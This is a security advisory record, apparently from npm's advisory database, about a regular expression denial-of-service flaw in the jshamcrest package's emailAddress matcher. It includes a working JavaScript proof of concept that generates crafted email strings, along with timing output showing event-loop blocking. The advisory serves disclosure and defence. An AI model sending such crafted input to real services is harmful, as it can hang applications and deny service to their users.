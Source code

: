 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Adam Baldwin
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/jshamcrest
Review-Date: '2016-01-05'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>Recommendation: Do not pass untrusted user input into jshamcrest. Consider user a validator like joi that does not rely on regular expressions.
### Details
jshamcrest is vulnerable to regular expression denial of service (ReDoS) when certain types of user input is passed in to the emailAddress validator.  "The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression to enter these extreme situations and then hang for a very long time." [1]    ### Proof of concept  ``` var js = require('jshamcrest') var emailAddress = new js.JsHamcrest.Matchers.emailAddress();   var genstr = function (len, chr) {     var result = "";     for (i=0; i<=len; i++) {         result = result + chr;     }      return result; }   for (i=1;i<=10000000;i=i+1) {     console.log("COUNT: " + i);     var str = '66666666666666666666666666666@ffffffffffffffffffffffffffffffff.' + genstr(i, 'a') + '{'     console.log("LENGTH: " + str.length);     var start = process.hrtime();     emailAddress.matches(str)      var end = process.hrtime(start);     console.log(end); } ```  ### Results It takes about 116 characters to get a 1.6 second event loop block. ``` [ 1, 633084590 ] COUNT: 51 LENGTH: 116 ```  # Timeline - October 25, 2015 - Vulnerability Identified - October 25, 2015 - Maintainers notified (no response)
<br><br>• Affected Versions: <=99.999.99999
<br>• Patched Versions: <0.0.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
